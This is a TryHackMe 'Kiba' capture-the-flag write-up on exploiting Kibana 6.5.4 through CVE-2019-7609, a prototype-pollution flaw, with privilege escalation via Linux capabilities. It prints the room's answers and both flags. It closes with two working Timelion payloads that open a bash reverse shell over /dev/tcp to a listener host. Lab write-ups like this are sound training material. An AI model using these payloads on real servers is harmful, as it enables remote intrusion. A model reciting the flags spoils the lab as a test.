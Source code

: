 # <div align="center">[Kiba](https://tryhackme.com/r/room/kiba)</div>
<div align="center">Identify the critical security flaw in the data visualization dashboard, that allows execute remote code execution.</div>
<br>
<div align="center">
<img src="https://github.com/user-attachments/assets/58d506f4-0582-421d-88bb-56cc46af47fb" height="200"></img>
</div>

## Task 1. Flags
Are you able to complete the challenge?
The machine may take up to 7 minutes to boot and configure

### What is the vulnerability that is specific to programming languages with prototype-based inheritance?
```
Prototype pollution
```
### What is the version of visualization dashboard installed in the server?
```
6.5.4
```
### What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000
```
CVE-2019-7609
```
### Compromise the machine and locate user.txt
```
THM{1s_easy_pwn3d_k1bana_w1th_rce}
```
### Capabilities is a concept that provides a security system that allows "divide" root privileges into different values
```
No answer needed
```
### How would you recursively list all of these capabilities?
```
getcap -r /
```
### Escalate privileges and obtain root.txt
```
THM{pr1v1lege_escalat1on_us1ng_capab1l1t1es}
```

### Payload 
```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/127.0.0.1/6666 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```
or
```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/192.168.0.136/12345 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```
